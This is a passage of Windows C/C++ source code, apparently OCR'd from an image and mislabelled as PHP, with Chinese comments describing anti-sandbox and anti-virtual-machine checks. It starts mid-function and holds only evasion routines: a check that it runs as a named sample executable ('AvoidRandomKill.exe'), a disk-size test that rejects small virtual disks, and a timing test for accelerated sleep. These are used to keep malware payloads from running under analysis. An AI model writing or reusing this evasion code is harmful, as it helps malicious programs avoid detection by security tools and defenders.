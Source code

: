 ```php
    char currentProcessPath\[MAX\_PATH + 1\];  
    GetModuleFileName(NULL, currentProcessPath, MAX\_PATH + 1);  
    //if (!wcsstr(currentProcessPath, L"C:\\\\USERS\\\\PUBLIC\\\\")) return false;  
    if (!strstr(currentProcessPath, "AvoidRandomKill.exe"))//这里填写样本的名字  
    {  
        return false;  
    }  
    else  
        return true;  
}  
​  
​  
/\*  
    反虚拟机、沙箱  
    硬盘大小大于100  
\*/  
bool checkHDD() {  
​  
    HANDLE hDevice \= CreateFileW(L"\\\\\\\\.\\\\PhysicalDrive0", 0, FILE\_SHARE\_READ | FILE\_SHARE\_WRITE, NULL, OPEN\_EXISTING, 0, NULL);  
    DISK\_GEOMETRY pDiskGeometry;  
    DWORD bytesReturned;  
    DeviceIoControl(hDevice, IOCTL\_DISK\_GET\_DRIVE\_GEOMETRY, NULL, 0, &pDiskGeometry, sizeof(pDiskGeometry), &bytesReturned, (LPOVERLAPPED)NULL);  
    DWORD diskSizeGB;  
    diskSizeGB \= pDiskGeometry.Cylinders.QuadPart \* (ULONG)pDiskGeometry.TracksPerCylinder \* (ULONG)pDiskGeometry.SectorsPerTrack \* (ULONG)pDiskGeometry.BytesPerSector / 1024 / 1024 / 1024;  
    if (diskSizeGB < 100)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
    反沙箱、虚拟机  
    检测时间是否加速，来绕过沙箱  
\*/  
BOOL accelerated\_sleep()  
{  
    DWORD dwStart \= 0, dwEnd \= 0, dwDiff \= 0;  
    DWORD dwMillisecondsToSleep \= 30 \* 1000;  
​  
    dwStart \= GetTickCount();  
    MySleep mySlp \= (MySleep)GetProcAddress(GetModuleHandle("Kernel32.dll"), "Sleep");  
    mySlp(dwMillisecondsToSleep);  
    dwEnd \= GetTickCount();  
​  
    dwDiff \= dwEnd \- dwStart;  
    if (dwDiff \> dwMillisecondsToSleep \- 1000) // substracted 1s just to be sure  
        return false;  
    else  
        return true;  
}  
```
